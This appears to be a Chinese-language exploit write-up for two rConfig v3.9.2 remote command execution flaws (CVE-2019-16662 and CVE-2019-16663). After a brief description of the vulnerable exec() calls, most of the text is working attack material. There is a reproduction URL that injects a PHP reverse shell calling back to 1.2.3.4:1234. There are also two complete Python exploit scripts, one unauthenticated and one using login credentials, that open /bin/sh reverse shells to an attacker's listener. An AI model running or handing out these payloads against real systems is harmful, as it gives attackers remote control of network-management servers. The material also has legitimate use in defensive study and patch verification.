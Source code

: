 （CVE-2019-16662）（CVE-2019-16663）rConfig v3.9.2 远程命令执行
===============================================================

一、漏洞简介
------------

我在两个文件中分别发现了两个远程代码执行漏洞。第一个是ajaxServerSettingsChk.php，攻击者可以通过rootUname参数发送精心构造的一个GET请求，触发未授权RCE漏洞。rootUname参数在源文件第2行中定义，随后会在第13行传递给exec函数，攻击者可以构造参数接收内容实现让操作系统执行恶意命令。这个漏洞很容易利用和发现,后面的篇幅中我将介绍如何发现并利用这个漏洞。

第二个漏洞是在search.crud.php发现的，这文件需要通过身份验证才能触发远程代码执行漏洞。这个漏洞可以通过构造一个包含有两个参数的GET请求触发，其中searchTerm参数可以包含任意值，但该参数必须存在，才能执行到第63行的exec函数。

二、漏洞影响
------------

rConfig v3.9.2

三、复现过程
------------

    https://www.0-sec.org/install/lib/ajaxHandlers/ajaxServerSettingsChk.php?rootUname=`php -r '$sock=fsockopen("1.2.3.4",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

![](./.resource/(CVE-2019-16662)(CVE-2019-16663)rConfigv3.9.2远程命令执行/media/rId24.png)

pyton脚本一

    #!/usr/bin/python

    # Exploit Title: rConfig v3.9.2 unauthenticated Remote Code Execution
    # Date: 18/09/2019
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE : CVE-2019-16662
    # Vendor Homepage: https://rconfig.com/
    # Software link: https://rconfig.com/download
    # Version: v3.9.2
    # Tested on: CentOS 7.7 / PHP 7.2.22

    import requests
    import sys
    from urllib import quote
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

    if len(sys.argv) != 4:
        print "[+] Usage : ./exploit.py target ip port"
        exit()

    target = sys.argv[1]

    ip = sys.argv[2]

    port = sys.argv[3]

    payload = quote(''';php -r '$sock=fsockopen("{0}",{1});exec("/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3");'#'''.format(ip, port))

    install_path = target + "/install"

    req = requests.get(install_path, verify=False)
    if req.status_code == 404:
        print "[-] Installation directory not found!"
        print "[-] Exploitation failed !"
        exit()
    elif req.status_code == 200:
        print "[+] Installation directory found!"
    url_to_send = target + "/install/lib/ajaxHandlers/ajaxServerSettingsChk.php?rootUname=" + payload

    print "[+] Triggering the payload"
    print "[+] Check your listener !"

    requests.get(url_to_send, verify=False)

![](./.resource/(CVE-2019-16662)(CVE-2019-16663)rConfigv3.9.2远程命令执行/media/rId25.png)

python脚本二

    #!/usr/bin/python

    # Exploit Title: rConfig v3.9.2 Authenticated Remote Code Execution
    # Date: 18/09/2019
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE : CVE-2019-16663
    # Vendor Homepage: https://rconfig.com/
    # Software link: https://rconfig.com/download
    # Version: v3.9.2
    # Tested on: CentOS 7.7 / PHP 7.2.22


    import requests
    import sys
    from urllib import quote
    from requests.packages.urllib3.exceptions import InsecureRequestWarning


    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

    if len(sys.argv) != 6:
        print "[+] Usage : ./exploit.py target username password ip port"
        exit()

    target = sys.argv[1]

    username = sys.argv[2]

    password = sys.argv[3]

    ip = sys.argv[4]

    port = sys.argv[5]

    request = requests.session()

    login_info = {
        "user": username,
        "pass": password,
        "sublogin": 1
    }

    login_request = request.post(
        target+"/lib/crud/userprocess.php",
         login_info,
         verify=False,
         allow_redirects=True
     )

    dashboard_request = request.get(target+"/dashboard.php", allow_redirects=False)


    if dashboard_request.status_code == 200:
        print "[+] LoggedIn successfully"
        payload = '''""&amp;&amp;php -r '$sock=fsockopen("{0}",{1});exec("/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3");'#'''.format(ip, port)
        encoded_request = target+"/lib/crud/search.crud.php?searchTerm=anything&amp;catCommand={0}".format(quote(payload))
        print "[+] triggering the payload"
        print "[+] Check your listener !"
        exploit_req = request.get(encoded_request)

    elif dashboard_request.status_code == 302:
        print "[-] Wrong credentials !"
        exit()

![](./.resource/(CVE-2019-16662)(CVE-2019-16663)rConfigv3.9.2远程命令执行/media/rId26.png)
